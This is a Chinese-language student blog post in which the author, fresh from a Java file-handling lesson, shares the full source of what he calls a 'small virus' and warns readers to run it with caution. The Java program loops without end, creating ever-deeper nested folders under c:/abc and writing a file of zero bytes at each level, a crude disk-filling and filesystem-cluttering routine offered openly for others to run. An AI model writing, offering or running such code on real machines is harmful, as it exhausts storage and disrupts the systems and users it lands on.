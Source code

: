 ```yaml
---
layout: post
title: "Java---字节输入，文件操作，病毒制造，请谨慎运行！"
date: 2015-12-13 10:23:08 +0800
comments: true
categories:❷ Java大学之行,----- ①、Java/Web小项目
tags: [java,病毒,编程]
keyword: 陈浩翔, 谙忆
description: 今天刚刚学了Java文件操作，跟着老师的思路，迫不及待的制造了这个小病毒。 
用到的是一些小知识，很简单。 
创建文件和文件夹，向文件中写入字节。 
我已渐渐的爱上了编程！！！ 
下面附上完整代码：import java.io.File;
import java.io.FileOutputStream;
import java.io.IOException;
/**
 * @author hncu_ 
---
```



今天刚刚学了Java文件操作，跟着老师的思路，迫不及待的制造了这个小病毒。 
用到的是一些小知识，很简单。 
创建文件和文件夹，向文件中写入字节。 
我已渐渐的爱上了编程！！！ 
下面附上完整代码：import java.io.File;
import java.io.FileOutputStream;
import java.io.IOException;
/**
 * @author hncu_
<!-- more -->
----------

今天刚刚学了Java文件操作，跟着老师的思路，迫不及待的制造了这个小病毒。
用到的是一些小知识，很简单。
创建文件和文件夹，向文件中写入字节。
我已渐渐的爱上了编程！！！
下面附上完整代码：

```
import java.io.File;
import java.io.FileOutputStream;
import java.io.IOException;
/**
 * @author hncu_chx
 *
 * Mylove amin
 */
public class FileCreateDemo {
	private static String str1,str2;
	private static long  i=0;
	private static boolean go = true;
	
	public static void main(String[] args) throws IOException {
		str1 = "c:/abc/aaa";
		str2 = str1+"a.txt";
		do{
			File file1 = new File(str1);
			File file2 = new File(str2);
			
			file1.mkdirs();//创建新文件夹
			file2.createNewFile();//创建新文件
			
			FileOutputStream file = new FileOutputStream(str2);
			for(int j=0;j<1000;j++)
			file.write(48);//向文件中写入码值为48的这个值（也就是写入0）
			str1 = str1+"/";
			for(long k=0;k<i;k++){
			  str1 = str1 +"a";
			}
			str1 = str1+i;
			str2 = str1+"a.txt";
			i++;
		}while(go);
	}
}
```

本文章由<a href="http://chenhaoxiang.cn/">[谙忆]</a>编写， 所有权利保留。 
欢迎转载，分享是进步的源泉。
<blockquote cite='陈浩翔'>
<p background-color='#D3D3D3'>转载请注明出处：<a href='http://chenhaoxiang.cn'><font color="green">http://chenhaoxiang.cn</font></a><br><br>
本文源自<strong>【<a href='http://chenhaoxiang.cn' target='_blank'>人生之旅_谙忆的博客</a>】</strong></p>
</blockquote>
